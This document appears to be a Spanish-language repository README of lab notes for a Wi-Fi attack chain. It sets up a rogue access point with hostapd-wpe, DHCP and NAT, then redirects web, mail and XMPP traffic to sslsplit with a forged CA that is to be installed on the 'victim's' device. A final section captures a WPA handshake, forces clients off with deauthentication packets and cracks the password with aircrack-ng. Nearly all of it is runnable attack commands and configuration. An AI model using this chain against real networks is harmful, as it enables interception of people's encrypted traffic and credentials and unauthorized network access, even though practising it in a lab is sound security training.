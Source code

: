 Teclado ES

```
setxkbmap es sundeadkeys
```

# AP

Comprobar que el dispositivo está enchufado y detectado

```
iwconfig
```

Actualizar la lista de paquetes disponibles y sus versiones

```
sudo apt update
```

Modified hostapd to facilitate AP impersonation attacks

(hostapd modificado para facilitar ataques de impersonificación en puntos de acceso)

```
sudo apt install hostapd-wpe
```

```
cd
mkdir pruebas
cd pruebas
```

```
nano host.conf
```

```
interface=wlan0
driver=nl80211
country_code=ES
hw_mode=g
channel=1
ssid=Core Free

#auth_algs=1
#wpa=2
#wpa_key_mgmt=WPA-PSK
#wpa_pairwise=CCMP
#wpa_passphrase=12345678
```

# Redirección de tráfico

```
cd
cd pruebas
```

```
touch ip.sh
chmod 700 ip.sh
nano ip.sh
```

```
#!/bin/bash

iptables -F
iptables -t nat -F

iptables -X
iptables -t nat -X

iptables -P INPUT ACCEPT
iptables -P OUTPUT ACCEPT
iptables -P FORWARD ACCEPT

echo 1 > /proc/sys/net/ipv4/ip_forward

LAN_IF="eth0"

iptables -t nat -A POSTROUTING -o $LAN_IF -j MASQUERADE
```

# DHCP

```
sudo apt install isc-dhcp-server
sudo cp /etc/dhcp/dhcpd.conf /etc/dhcp/dhcpd.conf.ORIGINAL
sudo nano /etc/dhcp/dhcpd.conf
```

Descomentar la siguiente instruccion

```
#authoritative;
```

Añadir al final del documento

```
subnet 172.16.0.0 netmask 255.255.255.0 {
    range 172.16.0.100 172.16.0.240;
    option broadcast-address 172.16.0.255;
    option routers 172.16.0.1;
    option domain-name "local";
    option domain-name-servers 8.8.8.8, 8.8.4.4;
}
```

```
sudo nano /etc/default/isc-dhcp-server
```

Modificarlo de la siguiente forma

```
INTERFACESV4="wlan0"
# INTERFACESV6=""
```

# Iniciar

Nota: Correr en el mismo orden en caso de reiniciar el sistema

```
sudo ifconfig wlan0 172.16.0.1 netmask 255.255.255.0
sudo systemctl start isc-dhcp-server.service
sudo systemctl status isc-dhcp-server.service
```

```
cd
cd pruebas
```

```
sudo ./ip.sh
sudo iptables -t nat -nL
```

```
sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng check
```

```
sudo hostapd-wpe host.conf
```

# SSL

```
cd
cd pruebas
mkdir sslsplit
cd sslsplit
```

Generar el certificado. Debe ser instalado en el dispositivo de la víctima

```
openssl genrsa -out ca.key 4096
openssl req -new -x509 -days 1826 -key ca.key -out ca.crt
```

Editar el script "ip.sh" que teníamos y cambiar todos los "iptables" por "iptables-legacy", entonces quedaría:

```
#!/bin/bash

iptables-legacy -F
iptables-legacy -t nat -F

iptables-legacy -X
iptables-legacy -t nat -X

iptables-legacy -P INPUT ACCEPT
iptables-legacy -P OUTPUT ACCEPT
iptables-legacy -P FORWARD ACCEPT

echo 1 > /proc/sys/net/ipv4/ip_forward

LAN_IF="eth0"

iptables-legacy -t nat -A POSTROUTING -o $LAN_IF -j MASQUERADE
```

Y debajo añadir las siguientes reglas

```
iptables-legacy -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables-legacy -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080
```

Cuando se haya lanzado el ip.sh, comprobarlo con

```
sudo iptables-legacy -t nat -nL
```

en lugar de con

```
sudo iptables -t nat -nL
```

```
cd
cd pruebas/sslsplit
mkdir logdir
```

## Iniciar SSL

```
mkdir /tmp/sslsplit
sudo sslsplit -D -l connections.log -j /tmp/sslsplit/ -S logdir/ -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
o
sudo sslsplit -D -l connections.log -j /tmp/sslsplit/ -S logdir/ -k ca.key -c ca.crt https 0.0.0.0 8443 tcp 0.0.0.0 8080
```

# Crack

Comprobar que el device ha sido detectado

```
iwconfig
```

```
sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng check
```

Comprobar wlan0 se ha convertido en wlan0mon

```
sudo airmon-ng start wlan0
iwconfig
```

```
sudo airodump-ng wlan0mon
coger el bssid y el canal para hacerlo más especifico:
cd
cd Desktop
sudo airodump-ng -c [canal del punto de acceso] -bssid [bssid del punto de acceso] -w objetivo wlan0mon
(en STATION coger la mac address del dispositivo que está conectado al punto de acceso. Se crearan algunos archivos llamados objetivo, entre ellos un .cap)

sudo aireplay-ng -0 5 -a [bssid del punto de acceso] -c [mac address del dispositivo que está conectado al punto de acceso] wlan0mon
tiene que mostrar algunas lineas de "Sending" y en el airodump-ng mostrarse el "handshake"

cd
cd Desktop
crear un contrasenas.txt con contraseñas (incluir la contraseña buena)
sudo aircrack-ng -w contrasenas.txt [el archivo .cap]
Se debe mostrar "KEY FOUND" y a continuación la contraseña
```

# Enlaces

```
https://blog.heckel.io/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/

https://alpaca-attack.com/
```
